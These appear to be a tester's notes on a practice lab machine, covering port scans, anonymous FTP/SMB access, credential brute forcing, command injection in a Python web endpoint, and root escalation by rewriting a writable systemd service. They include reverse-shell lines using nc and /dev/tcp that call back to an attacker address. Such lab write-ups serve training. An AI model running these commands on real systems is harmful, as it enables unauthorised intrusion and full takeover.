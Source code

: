 ### Enumeration
```
IP=192.168.170.117
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p21,22,80,139,445,18000,50000 -A $IP
```
### Ports 
- 21
	- vsftpd 3.0.3
- 22
	- OpenSSH 8.0 (protocol 2.0)
- 80
	- Apache httpd 2.4.37 ((centos))
- 139
	- netbios-ssn Samba smbd 4.6.2
- 445
	- netbios-ssn Samba smbd 4.6.2
- 18000
	- biimenu?
- 50000
	- Werkzeug httpd 1.0.1 (Python 3.6.8)
### Foothold
- 21
	- ftp anonymous@$IP
		- login successful
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
		- anonymous:anonymous
		- ftp:b1uRR3
		- ftp:ftp
- RPC/ SMB
	- enum4linux -U $IP
		- nothing
- 445
	- smbclient -N -L //$IP
		- anonymous login success
		- shares
			- print$
			- Cmeeks
			- IPC$
	- nmap --script smb-vuln* -p135,139,445 $IP
		- not vulnerable
- 80
	- Default landing page
		- ![[Pasted image 20240711102949.png]]
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
			- nothing
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
			- nothing
- 18000
	- Default landing page
		- ![[Pasted image 20240711103000.png]]
	- Versions
	- Login
		- Tried 
			- admin:admin  -  failed
			- admin':admin  -  failed
		- Registration needs invite code
	- Directory Brute force
		- dirsearch -u http://$IP:18000
			- slow to search
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP:18000/FUZZ
- 50000
	- Default landing page
		- ![[Pasted image 20240711103009.png]]
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP:50000
			- nothing
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP:50000/FUZZ
			- /verify
		- Found directories
			- /generate
				- {'email@domain'}
			- /verify
				- {'code'}
				- Can change to POST and set data to  code
				- ![[Pasted image 20240711111453.png]]
				- Can send some commands to host
				- ![[Pasted image 20240711111810.png]]
				- Can maybe put os.system commands
				- ![[Pasted image 20240711112055.png]]
				- Maybe we can use a rev shell
				- `nc 192.168.45.195 80 -e /bin/bash`  >  RCE
### PE
#### Linux
- cmeeks
	- id
		- uid=1000(cmeeks) gid=1000(cmeeks) groups=1000(cmeeks)
	- sudo -l
		- (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
	- uname -a
		- Linux hetemit 4.18.0-193.28.1.el8_2.x86_64 #1 SMP Thu Oct 22 00:20:22 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- ![[Pasted image 20240711112317.png]]
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- cmeeks
	- linpeas
		- Service
			- /etc/systemd/system/multi-user.target.wants/pythonapp.service
				- lrwxrwxrwx
				- we can probably overwrite with malicious code
				- Will add to pythonapp.service `ExecStart=/tmp/shell.sh`
				- echo 'nc 192.168.45.195 22 -e /bin/bash' > shell.sh
					- did not work
				- ExecStart=/bin/bash -c ‘bash -i >& /dev/tcp/192.168.45.161/50000 0>&1’
				- User=root
				- ![[Pasted image 20240711132603.png]]
			- /etc/systemd/system/pythonapp.service
				- -rw-rw-r--
### Credentials
### Lessons Learned